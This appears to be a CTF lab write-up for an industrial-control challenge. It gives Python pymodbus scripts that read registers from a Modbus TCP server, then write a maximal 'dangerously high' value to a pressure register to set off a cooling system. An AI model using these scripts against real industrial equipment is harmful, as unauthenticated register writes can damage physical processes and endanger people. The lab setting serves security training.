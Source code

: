 ```bash
pip install pymodbus
```

let's identify the pressure register and the cooling system status register.

```python
from pymodbus.client import ModbusTcpClient
import sys

client = ModbusTcpClient("<IP>", port=502)
addr = int(sys.argv[1]) if len(sys.argv) > 1 else 0
if client.connect():
    print("[+] Connected to Modbus server")

    try:
        # Read holding registers
        result = client.read_holding_registers(addr)
        if not result.isError():
            print(f"Holding registers: {result.registers}")

        # Read input registers
        result = client.read_input_registers(addr)
        if not result.isError():
            print(f"Input registers: {result.registers}")

    except Exception as e:
        print(f"[-] Error: {e}")
        pass

    client.close()
else:
    print("[-] Failed to connect")
```

result:<br/>
<img alt="read-registers-result" src="/kaboom-write-up-thm-industrial/read-registers-result.png" />

then we change the pressure value to a high value to trigger the cooling system to activate.<br/>

```python
from pymodbus.client import ModbusTcpClient

client = ModbusTcpClient("<IP>", port=502)
client.connect()

target_register = 0
value_to_write = 65535  # Dangerously high value

response = client.write_register(target_register, value_to_write)
print(response)
if not response.isError():
    print(f"[+] Successfully wrote {value_to_write} to 40001 (register 0)")
else:
    print("[-] Failed to write")

client.close()
```
